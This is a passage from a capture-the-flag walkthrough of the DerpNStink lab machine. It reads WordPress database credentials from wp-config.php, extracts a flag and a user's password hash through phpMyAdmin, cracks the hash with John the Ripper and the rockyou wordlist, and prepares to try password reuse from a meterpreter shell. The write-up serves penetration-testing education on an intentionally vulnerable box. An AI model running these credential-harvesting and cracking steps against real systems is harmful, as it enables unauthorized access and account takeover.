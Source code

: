 Let's *cat* the wp-config.php file to discover the (again guessable) database credentials

```
/ ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'mysql');

/** MySQL hostname */
define('DB_HOST', 'localhost');

```

In the previous dirb scan we discovered the path of a PhpMyAdmin installation, so let's browse to *http://derpnstink.local/php/phpmyadmin/* and login using the just discovered credentials.

The *wordpress* database contains some useful information, such as the second flag **flag2(a7d355b26bda6bf1196ccffead0b2cf2b81f0a9de5b4876b44407f1dc07e51e6)**, which can be saved as the content of a draft post in the *wp_posts table*. Moreover, heading to the wp_users table, we get the hash of the credentials for the Wordpress users.

We already know the password for the admin user, but right now we are insterested in the one of user unclestinky. Let's copy the hash *$P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41* and prepare for a new bruteforce attack, this time performed locally.


```
root@kali:~# echo '$P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41' > password_hash.txt
root@kali:~# john password_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 AVX 4x3])
No password hashes left to crack (see FAQ)
root@kali:~# john --show password_hash.txt
?:wedgie57

1 password hash cracked, 0 left

```

We have now the password for the second Wordpress user. Back to our meterpreter console, let's try to use this information. 

```
cd /home
ls
mrderp
stinky
```

The machine has two registered users. Let's spawn a terminal emulator and try to login as stinky (password re-use?)
